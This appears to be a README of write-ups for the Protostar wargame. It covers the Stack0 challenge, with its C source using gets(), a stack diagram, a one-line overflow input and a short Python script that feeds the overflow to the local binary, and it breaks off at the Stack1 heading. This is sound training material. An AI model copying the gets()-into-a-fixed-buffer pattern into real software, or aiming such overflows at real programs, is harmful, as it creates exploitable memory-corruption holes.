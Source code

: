 # protostar
protostar sploits and solutions 
https://exploit-exercises.com/protostar

NOTE: write ups in progress. Adding python exploit poc's to each excercise for practice!

Stack0
============================================

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}

Stack looks like:
 ---------------------------------------
| eip | ebp | modified(0) |   buffer    |
 ---------------------------------------
fill buffer with gets 
since buffer = 64 bytes, an input of 65 bytes should overflow and overwrite modified

winning command:
python -c "print 'a'*64+'1'" | ./stack0

Python exploit script for this challenge
from subprocess import Popen, PIPE
################
buffer = 64
fill = "A"*buffer
input=fill+"1"
#################
cproc = Popen("./stack0", stdin=PIPE, stdout=PIPE)
print cproc.communicate(input)[0]


---------------------------------------------------------------------------------------------------------------------
Stack1

